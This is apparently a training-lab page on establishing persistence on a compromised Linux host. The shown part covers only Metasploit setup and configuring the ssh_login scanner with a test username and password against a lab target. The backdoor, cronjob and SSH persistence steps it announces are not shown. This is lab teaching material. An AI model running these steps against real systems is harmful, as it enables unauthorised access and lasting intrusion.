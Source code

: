 # Establishing Persistence on Linux

## Overview

- **Persistence**: After gaining access to a target system, attackers need to ensure continued access even after system reboots or other interruptions.
- **Goal**: In this demo, we will use various techniques and Metasploit modules to establish persistent access to a compromised Linux system, including creating backdoor users, cronjobs, and SSH persistence.

## Demo: Establishing Persistence on Linux

### Step-by-Step Process

Check network configuration:

```bash
ifconfig
```

Start PostgreSQL and launch Metasploit:

```bash
service postgresql start && msfconsole
```

Create a new workspace for **Linux persistence**:

```bash
workspace -a Linux_persistence
```

Set the target IP address globally:

```bash
setg rhosts demo.ine.local
```

### Scanning and Initial Access

Search for the **SSH login** auxiliary module to attempt logging in:

```bash
search ssh_login
```

Use the **SSH login** module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

Set the username and password for SSH login:

```bash
set username jackie
set password password
```
